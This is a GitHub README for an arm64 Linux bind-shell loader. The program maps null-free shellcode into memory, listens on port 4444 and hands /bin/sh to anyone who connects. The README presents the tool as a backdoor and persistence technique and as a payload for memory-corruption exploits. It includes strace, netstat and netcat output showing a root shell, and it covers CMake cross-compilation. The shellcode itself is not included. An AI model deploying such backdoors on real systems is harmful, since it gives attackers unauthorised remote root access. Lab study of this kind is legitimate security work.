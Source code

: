 # arm64_bind_shellcode
C program to map arm64 bind shell code into memory and execute code

# This will only work on target arm64 device running Linux. Fixed stack management issues in original assembler code.

Source code for mapping bind shell code into memory and executing the mapped shell code.
The arm64 code was tested on a Raspberry Pi running Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-1062-raspi2 aarch64).

## License

Please see the (LICENSE) file for the exact details.

## bind-shellcode-mapped 

## About

The C program bind-shellcode-mapped loads an array of arm-64 bind shell code and execute in memory mapped location.  After relocating the shell code this code is invoked as a C function. A bind shell is a shell that binds to a specific port on the target host to listen for incoming connections.

A bind shell is used to create a listening port on a target machine, that can be later accessed via the network and interact with a system shell. This is a common technique for creating backdoors and maintaining persistence on a target machine.

This will demonstrate how to create a bind shell then move further to create the bind shell and map it into memory.  This program will accept incoming connection a execute a shell to the remote connection.

Now the shell code assembler source code has been modified to directly perform the system call by substituting the execve with the linux system call number.  Additionally, the null bytes have been removed from the code.  This will allow the shell code to be used to exploit memory corruption vulnerabilities.

This program can be ran as a shell or root user.

In the first terminal on the arm64 trget start the bind shell code mapped program

    On the Target run the bind-shellcode-mapped program
    Start the server as root on the target
    $ su
    passphrase
    # strace -e execve,socket,bind,listen,accept,dup2 ./bind-shellcode-mapped 
    execve("./bind-shellcode-mapped", ["./bind-shellcode-mapped"], 0xfffff57e5850 /* 19 vars */) = 0
    Shellcode Length: 164 Bytes
    socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3
    bind(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("0.0.0.0")}, 16) = 0
    listen(3, 2)                            = 0
    accept(3, NULL, NULL)                   = 4
    execve("/bin/sh", NULL, NULL)           = 0
    --- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=15079, si_uid=0, si_status=0, si_utime=0, si_stime=0} ---
    --- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=15080, si_uid=0, si_status=0, si_utime=0, si_stime=0} ---
    +++ exited with 0 +++

In another terminal on the arm64 target use netstat to identify the active ports on the target.   The program bind-shell can be seen running on port 4444.  Next start netcat to connect to port 4444.  If the connection succeeds user interaction will reveal a root shell (without prompt) as shown below.
       
    $ netstat -tlpn
    (Not all processes could be identified, non-owned process info
    will not be shown, you would have to be root to see it all.)
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
    tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
    tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
    tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN      -                   
    tcp6       0      0 :::22                   :::*                    LISTEN      -                   
    
    $ netcat -nv 0.0.0.0 4444
    Connection to 0.0.0.0 4444 port [tcp/*] succeeded!
    whoami 
    root
    id
    exit

## Stack Management Issues

For AArch64, sp must be 16-byte aligned whenever it is used to access memory. This is enforced by AArch64 hardware.

// Broken AArch64 implementation of `push {x1}; push {x0};`.
str   x1, [sp, #-8]!  // This works, but leaves `sp` with only 8-byte alignment
str   x0, [sp, #-8]!  // ... so the second `str` will fail.

C compilers will typically reserve stack space at the start of the function, then leave sp alone until the end, so the restriction is not as awkward as it first seems. However, you must be aware of it when handling assembly code.

It sounds wasteful – and in most cases it is – but the simplest way to handle the stack pointer can be to push each value to a 16-byte slot. This doubles the stack usage (for pointer-sized values), and it effectively reduces the available memory bandwidth. It is also awkward to implement multiple-register operations using this scheme, since each register requires a separate instruction.

## Sources: sc_mapped

Credit to Ken Kitahara for the use of his source code.

https://packetstormsecurity.com/files/153461/Linux-ARM64-Bind-4444-TCP-Shell-bin-sh-Null-Free-Shellcode.html

Max Compston, Embedded Software Solutions.

## Building this Release

The source code for this program is built using CMake.  

The source code for the arm64 target are cross compiled using gnu arm64 compiler, below.  First in install the cross-compiler on the host.

$ sudo apt-get install gcc-aarch64-linux-gnu g++-aarch64-linux-gnu

Next, set up the host to cross-compile arm64 creating a toolchain-aarch64-linux-gnu.cmake file in your home directory.  Add the following:

#- this one is important
SET(CMAKE_SYSTEM_NAME Linux)
SET(CMAKE_SYSTEM_PROCESSOR arm64)

#- specify the cross compiler
SET(CMAKE_C_COMPILER   /usr/bin/aarch64-linux-gnu-gcc)
SET(CMAKE_CXX_COMPILER /usr/bin/aarch64-linux-gnu-g++)

#- where is the target environment
SET(CMAKE_FIND_ROOT_PATH  /user/aarch64-linux-gnu)

#- search for programs in the build host directories
SET(CMAKE_FIND_ROOT_PATH_MODE_PROGRAM NEVER)

#- for libraries and headers in the target directories
SET(CMAKE_FIND_ROOT_PATH_MODE_LIBRARY ONLY)
SET(CMAKE_FIND_ROOT_PATH_MODE_INCLUDE ONLY)

To build the cross-compiled arm64 program navigate to the build directory and run cmake as follows:

$ cmake -DCMAKE_TOOLCHAIN_FILE=~/toolchain-aarch64-linux-gnu.cmake .. && make
